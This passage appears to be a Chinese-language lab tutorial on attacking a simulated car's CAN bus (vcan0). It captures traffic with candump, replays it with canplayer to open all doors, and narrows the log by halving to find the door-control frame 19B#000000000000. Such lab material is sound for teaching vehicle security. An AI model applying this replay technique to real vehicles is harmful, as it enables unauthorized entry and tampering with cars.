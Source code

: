 ![img](https://img-blog.csdnimg.cn/3398fbfeea95403594c5b8b7b0179398.gif)

使用candump进行抓包



highlighter- apache

```
candump vcan0 -l
```

CTRL+C停止

![img](https://img-blog.csdnimg.cn/e9c4b8cfaf9147d89e5d9e3d2cee7d75.png)

看到抓到的包，由于CAN在不停的通信所以包会非常大。

![img](https://img-blog.csdnimg.cn/63c13986eb584e288fcfe1efcbc381e7.png)

接下来我们找到CAN网络上面控制车辆的数据包对他进行攻击。

监听抓包，然后打开所有车门然后关闭。

抓到了一万多个包。

![img](https://img-blog.csdnimg.cn/b40e7fcf15904db4a3f34f8500980456.png)

尝试重放我们的包



highlighter- apache

```
canplayer -I candump-2022-11-15_052559.log
```

可以看到全部车门打开随即关闭。

![img](https://img-blog.csdnimg.cn/aa61bd95406b414688bbe311b539c5c6.gif)

接下来我们采用二分法每次删除一半来查找关闭车门的包。

最终通过二分法找到打开所有车门的包为：



highlighter- gcode

```
(1668507963.222323) vcan0 19B#000000000000
```

![img](https://img-blog.csdnimg.cn/ee3a2be82b9a46068700c9b5810a88d0.png)

其中的19B是设备标识符，在数据包中查找19B。

highlighter- 1c

```
└─$ grep 19B candump-2022-11-15_052559.log 

(1668507960.512530) vcan0 244#000000019B
(1668507962.233563) vcan0 19B#00000F000000
(1668507963.222323) vcan0 19B#000000000000
(1668507963.517110) vcan0 244#000000019B
(1668507964.208966) vcan0 19B#00000F000000
(1668507965.319056) vcan0 244#000000019B
```
